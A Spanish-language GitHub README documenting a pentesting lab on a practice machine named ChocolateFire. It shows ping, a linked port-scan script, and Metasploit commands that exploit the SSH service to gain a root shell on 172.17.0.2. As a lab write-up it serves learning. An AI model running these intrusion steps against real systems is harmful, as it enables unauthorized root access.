




# Lab de Pentesting: Acceso root directo mediante explotación de SSH máquina ChocolateFire

Este repositorio documenta el proceso utilizado para obtener acceso root a una máquina mediante explotación del servicio SSH con Metasploit.

---

## Resumen

El objetivo fue identificar los servicios activos, detectar una posible vulnerabilidad en SSH y aprovecharla utilizando un módulo de Metasploit que permite la ejecución remota directa como usuario root.

---

## Herramientas utilizadas

- `ping`
- `nmap` 
- `msfconsole`

---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

Se comprobó que la máquina objetivo está activa en la red.

---

### 2. Escaneo de puertos
## Script de escaneo

El script utilizado para escanear los puertos está disponible en:

👉 [`escaneo.sh`](./scriptPuertosLimpios.sh)

---

### 3. Explotación del servicio SSH con Metasploit

Iniciamos Metasploit:

    msfconsole

Buscamos módulos relacionados con SSH. Las opciones 0 y 4 se consideraron útiles. Se eligió la opción 4.

Configuramos los parámetros:

    use 4
    set RHOSTS 172.17.0.2
    set LHOST (Mi IP)
    run

---

### 4. Acceso root exitoso

La explotación fue exitosa y se obtuvo acceso directo como **usuario root**.

---

## Resultados finales

- Acceso root directo conseguido mediante Metasploit.
- Explotación exitosa de una vulnerabilidad crítica en el servicio SSH.

---

## Consideraciones

Este laboratorio es únicamente para fines educativos y de práctica en entornos controlados. No debe aplicarse en sistemas reales sin autorización expresa.
